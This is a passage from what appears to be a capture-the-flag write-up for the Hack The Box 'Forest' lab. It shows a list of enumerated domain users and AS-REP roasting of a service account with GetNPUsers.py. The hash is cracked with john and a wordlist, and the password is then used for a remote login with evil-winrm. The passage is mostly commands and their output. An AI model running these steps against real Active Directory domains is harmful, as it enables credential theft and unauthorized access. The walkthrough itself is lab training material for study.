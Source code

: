 ```
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

## Cracking the TGT for the service account

When we query the target domain for users with 'Do not require Kerberos preauthentication' set, we find that `svc-alfresco` is not configured with pre-authentication so its TGT will be returned to us encrypted with its password. Similar to kerberoasting, we can brute force the hash offline.

```
root@kali:~/htb/forest# GetNPUsers.py htb.local/svc-alfresco -no-pass -dc-ip 10.10.10.161
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:048f9eeb67ab94be9e4d8fa1da1020[...]6994e733284cc75dc1e3fff447a5d69b064df4fc5967c96b023a5
```

```
root@kali:~/htb/forest# john -w=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
1g 0:00:00:06 DONE (2019-10-12 19:52) 0.1481g/s 605297p/s 605297c/s 605297C/s s401447401447401447..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

We found the credentials for the service account: `svc-alfresco` / `s3rvice`. This service account is allowed to connect to the server with WinRM.

```
root@kali:~/htb/forest# evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161

Info: Starting Evil-WinRM shell v1.6

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> type ..\desktop\user.txt
e5e4e47[...]
```
